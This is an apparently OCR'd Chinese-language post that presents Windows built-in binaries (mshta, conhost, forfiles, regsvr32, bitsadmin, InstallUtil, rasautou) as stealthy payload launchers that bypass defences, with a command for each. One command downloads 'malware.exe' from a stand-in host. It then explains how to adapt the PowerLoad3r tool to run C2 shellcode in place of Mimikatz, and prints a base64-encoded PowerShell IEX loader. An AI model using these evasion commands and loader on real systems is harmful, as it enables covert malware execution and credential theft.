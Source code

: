 Windows 内置了一些攻击者喜爱的可信二进制文件，这些文件每天都在使用，但稍加改动就能变成使安全防护措施失效的 **payload 启动器**  
  
**MSHTA**  
 可以直接在内存中执行 VBScript 或 JavaScript，不留下文件和痕迹  
```
mshta vbscript:Execute(“CreateObject(“”WScript.Shell””).Run “”calc.exe””,0 : close”)
```  
  
**Conhost**  
 在后台静默无头运行 payload，不会引起任何警报  
```
conhost.exe — headless C:\Windows\System32\calc.exe
```  
  
**Forfiles**  
 静默循环执行 payload，没人会对这个工具产生怀疑  
```
forfiles /P C:\Windows\System32 /M calc.exe /C “cmd /c calc.exe”
```  
  
**Regsvr32**  
 通过 COM objects 加载 scriptlets 绕过大多数防御措施 (这种方法已被广泛检测)  
```
regsvr32 /s /u /n /i:calc.exe scrobj.dll
```  
  
**BITSAdmin**  
 (后台传输服务) 可以隐秘地下载 payload  
```
bitsadmin /transfer job /download /priority high http://example.com/malware.exe C:\temp\malware.exe
```  
  
**InstallUtil**  
 (.NET 实用工具) 在安装过程中运行恶意 .NET 程序集  
```
bash InstallUtil.exe /logfile= /LogToConsole=false /U malicious.dll
```  
  
**Rasautou**  
 是的，这个你已经遗忘的远程访问工具能像幽灵一样悄无声息地执行 payload  
```
rasautou.exe –d/-a C:\Windows\System32\calc.exe
```  
## - PowerLoad3r 概述  
  
**如何修改它来运行你想要的内容（如果你想先了解它的功能和作用，请查看本节下面的部分！）**  
  
你听说过 PowerLoad3r (  
https://github.com/0xNinjaCyclone/PowerLoad3r  
) 吗？没有？让我来告诉你，这是一个用于运行 PowerShell 脚本的工具，这个工具非常强大！它配备了先进的规避技术，而且你猜怎么着？它的一些魔法是用纯汇编和 C 语言编写的。很刺激，对吧？  
  
但是等等，还有更多！准备好提升水平了吗？让我们来看看如何将 PowerLoad3r 与任何你选择的 C2 集成。  
  
你知道 WriteToPipes 函数吗？这就是魔法开始的地方。你需要修改它的调用来写入 shellcode，默认情况下它在第 622 行使用 IEX 来加载和执行 Mimikatz，所以我们将在这里修改代码。首先，计算仅从 shellcode 中获取的 base64 编码文本的字符数。然后，计算这些 base64 字符的总和，再加上一个彩蛋：额外的 8。是的，你没听错，加 8（base64 字符 + 8），这就是你将作为参数传递的大小。  
  
这里有一个小预览：  
```
WriteToPipe("$s = \"JHUATQBOAEEAQQBBAD0AIgApACkAOwBJAEUAWAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAegBpAHAAUwB0AHIAZQBhAG0AKAAkAHMALABbAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAOwA=\"\n", 392);  WriteToPipe("$d = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($s))\n", 87);  WriteToPipe("IEX $d\n", 7);
```  
  